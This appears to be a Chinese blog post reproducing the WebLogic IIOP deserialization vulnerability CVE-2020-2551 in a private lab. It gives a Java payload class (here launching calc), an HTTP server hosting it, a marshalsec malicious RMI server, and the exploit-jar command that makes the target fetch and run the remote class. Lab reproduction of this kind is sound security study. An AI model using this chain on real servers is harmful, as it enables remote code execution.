



# 20181223 何家豪 Weblogic CVE-2020-2551 复现 - POI~20181223 - 博客园

> 原文：[`www.cnblogs.com/soujiokita/p/14710964.html`](https://www.cnblogs.com/soujiokita/p/14710964.html)

目录

*   一、漏洞环境
*   二、漏洞利用

Weblogic IIOP 反序列化

# 一、漏洞环境

所有环境都是建立在 java 环境的基础上，jdk 自行下载安装，本机环境 jdk 10.0


环境 1：[vulub-weblogic-CVE-2017-10271](https://github.com/vulhub/vulhub/tree/master/weblogic/CVE-2017-10271)
环境 2：本地搭建 Windows

[weblogic 下载](https://www.oracle.com/middleware/technologies/weblogic-server-downloads.html)

[weblogic 10.3.6 安装步骤](https://wenku.baidu.com/view/938a7a56f5335a8102d220d0.html)

搭建完成以后，启动 weblogic 访问如下图所示即为搭建成功



# 二、漏洞利用

这里我们采用环境 2 在本地搭建
win7：192.168.111.18（虚拟机）
win10：192.168.2.234（本机）

[漏洞本体](https://pan.baidu.com/s/1N9oW3PtJJpkGC-W-LkgW9A)提取码：03vx
下载工具都放在同一个文件夹里



exp.java

```
import java.io.IOException;

public class exp {
	static{
		try {
			java.lang.Runtime.getRuntime().exec(new String[]{"cmd","/c","calc"});
		} catch (IOException e) {
			e.printStackTrace();
		}
	}
	public static void main(String[] args) {

	}
} 
```

编译生成 exp.class
`javac exp.java -source 1.6 -target 1.6`

启一个 web 服务，需要与 exp.class 在同一文件夹

```
python -m SimpleHTTPServer 80
python3 -m http.server 80 
```


使用 marshalsec 起一个恶意的 RMI 服务
`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.2.234/#exp" 1099`


漏洞攻击，成功弹出 calc
`java -jar weblogic_CVE_2020_2551.jar 192.168.111.18 7001 rmi://192.168.2.234:1099/exp`

